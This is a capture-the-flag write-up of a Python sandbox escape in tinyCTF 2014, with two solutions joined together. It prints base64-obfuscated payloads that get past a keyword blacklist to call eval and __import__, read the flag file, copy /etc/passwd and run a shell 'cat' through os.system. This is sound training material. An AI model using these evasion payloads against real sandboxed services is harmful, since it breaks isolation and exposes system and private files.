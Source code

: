 # tinyCTF 2014: Not exactly Alcatraz

**Category:** Exploitable
**Points:** 200
**Description:**

> [Exploit this](pwn200.zip)
> Over here: `nc 54.69.118.120 6000`
> Flag is in `/home/pybaby/flag.txt`

## Write-up

Let’s unzip [the provided `pwn200.zip` file](pwn200.zip):

```bash
$ unzip pwn200.zip
Archive:  pwn200.zip
  inflating: pwn200
```

The extracted `pwn200` file is a Python script.

```bash
$ python pwn200

Welcome to Safe Interactive CPython Shell (SICS)
================================================

Rules:
    - Wash your dishes
    - Don't eat the yellow snow
    - Do not import anything
    - No peeking at files!

baby@sics:~$
1 + 1
2
```

The script evaluates any Python code we enter, as long as it doesn’t contain the blacklisted words `import`, `open`, `flag`, `eval`, or `exec`. We need to find a way to break out of the sandbox and still read files.

One possible solution is the following:

```python
__builtins__.__dict__['ZXZhbA=='.decode('base64')]('b3BlbignL2hvbWUvcHliYWJ5L2ZsYWcudHh0JykucmVhZCgp'.decode('base64'))
```

`__builtins__.__dict__['ZXZhbA=='.decode('base64')]` is equivalent to `eval`, and `'b3BlbignL2hvbWUvcHliYWJ5L2ZsYWcudHh0JykucmVhZCgp'.decode('base64')` is `open('/home/pybaby/flag.txt').read()`. This prints the contents of the `/home/pybaby/flag.txt` file:

```
baby@sics:~$
__builtins__.__dict__['ZXZhbA=='.decode('base64')]('b3BlbignL2hvbWUvcHliYWJ5L2ZsYWcudHh0JykucmVhZCgp'.decode('base64'))
flag{python_sandboxing:_harder_than_teaching_your_mom_dota}

this is bad.

BitK vous fait des gros bisous

baby@sics:~$
```

The flag is `flag{python_sandboxing:_harder_than_teaching_your_mom_dota}`.

## Other write-ups and resources

* [_Escaping Python sandboxes_](https://isisblogs.poly.edu/2012/10/26/escaping-python-sandboxes/)


Un-zip [the provided `pwn200.zip` file](pwn200.zip):

```bash
$ unzip pwn200.zip
Archive:  pwn200.zip
  inflating: pwn200
```

The extracted `pwn200` file is a Python script.

```bash
$ python pwn200

Welcome to Safe Interactive CPython Shell (SICS)
================================================

Rules:
    - Wash your dishes
    - Don't eat the yellow snow
    - Do not import anything
    - No peeking at files!

baby@sics:~$
1 + 1
2
baby@sics:~$
open('/home/pybaby/flag.txt')
...
...
...

```

Well, we can't do anything 'normal' time for some 'exotic' code (-;

```python
# Well, let's try to import a library:
# X19pbXBvcnRfXw== is __import__ 
# c2h1dGls is shutil
__builtins__.__dict__['X19pbXBvcnRfXw=='.decode('base64')]('c2h1dGls'.decode('base64')).copyfile('/etc/passwd', '/proc/self/fd/0')
# Doing so on our local box

python pwn200
>>> __builtins__.__dict__['X19pbXBvcnRfXw=='.decode('base64')]('c2h1dGls'.decode('base64')).copyfile('/etc/passwd', '/proc/self/fd/0')
# BOOM! The password file... Okay, so this should work right?!

Nope... A socket dup'd fd doesn't like to be used like this...so back to the drawing board...

# Well, let's try to import a library again and use a system command:
# X19pbXBvcnRfXw== is __import__
# b3M= is os
__builtins__.__dict__['X19pbXBvcnRfXw=='.decode('base64')]('b3M='.decode('base64')).system("cat /home/pybaby/*.txt")

MONEY!!!

```

The flag is `flag{python_sandboxing:_harder_than_teaching_your_mom_dota}`.
